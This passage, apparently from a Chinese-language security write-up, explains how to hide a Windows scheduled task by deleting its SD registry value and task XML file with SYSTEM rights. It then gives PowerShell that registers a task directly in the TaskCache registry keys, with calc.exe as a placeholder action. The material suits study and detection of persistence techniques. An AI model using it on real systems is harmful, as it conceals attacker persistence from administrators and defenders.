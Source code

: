按道理，是可以通过配置任务 SD 实现，但是我并没有尝试成功。不过在一次测试过程中，偶然地直接删除了注册表中的 SD 项，发现无论什么方式都查不到任务信息，达到完全隐藏的目的：

- 启动 SYSTEM 权限 cmd：`psexec64  -i -s cmd.exe`
- 执行 regedit 以 SYSTEM 权限启动注册表编辑器
- 删除 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\{TaskName}\SD`
- 删除 `%SystemRoot%\System32\Tasks` 下任务对应的 XML 文件

优点：

- 无论何种方式（除了注册表），都查不到该任务，较为彻底

缺点：

- 无论是低权的任务还是高权，都需要 SYSTEM 权限（在 Win10 测试，低版本好像没这个要求，待测试）

#### 测试用例

下面是测试用的 powershell 代码（不通用，里面涉及的二进制内容需要先dump一个正常创建的任务）：

```powershell
$taskname = "test"
$uuid = "{3EC79FBB-0533-4356-89B3-8CE2003F1CD8}"
$cmd = "calc.exe"

New-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\" -Name $uuid
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\$uuid\" -Name "Path" -Value "\$taskname" -Type String -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\$uuid\" -Name "URI" -Value "\$taskname" -Type String -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\$uuid\" -Name "Schema" -Value 0x00010002 -Type DWORD -Force

$triggerstring = "FwAAAAAAAAABBwEAAAAIAAAI/NDz5dYBAAcBAAAACAD//////////zghQUNISEhI38PL80hISEgOAAAASEhISEEAdQB0AGgAbwByAAAASEgAAAAASEhISABISEhISEhIAEhISEhISEgBAAAASEhISBwAAABISEhIAQUAAAAAAAUVAAAAEXy5KUkCH0AHyc8n6AMAAEhISEgsAAAASEhISFQARQBDAEgATABJAFUAMQAwADUANwBcAHQAZQBjAGgAbABpAHUAAAAAAAAASEhISCwAAABISEhIWAIAABAOAACA9AMA/////wcAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABISEhI3d0AAAAAAAABBwEAAAAIAAAI/NDz5dYBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA8AAAAAAAAAP////8AAAAAAAAAAAAAAAAAAcVLAQAAAAAAAAB2oQAAAAAAAEhISEg="
$triggerbytes = [System.Convert]::FromBase64String($triggerstring)
$actionbytes = [byte[]](0x03,0x00,0x0c,0x00,0x00,0x00,0x41,0x00,0x75,0x00,0x74,0x00,0x68,0x00,0x6f,0x00,0x72,0x00,0x66,0x66,0x00,0x00,0x00,0x00,0x10,0x00,0x00,0x00) + [System.Text.Encoding]::Unicode.GetBytes($cmd) + [byte[]](0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00)

New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\$uuid\" -Name "Triggers" -Value $triggerbytes -Type binary -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\$uuid\" -Name "Actions" -Value $actionbytes -Type binary -Force

New-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree" -Name $taskname -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\$taskname" -Name "Id" -Value "{3EC79FBB-0533-4356-89B3-8CE2003F1CD8}" -Type string -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\$taskname" -Name "Index" -Value 0x3 -Type DWORD -Force

#Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\$taskname" -Force
#Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\$uuid" -Force
```
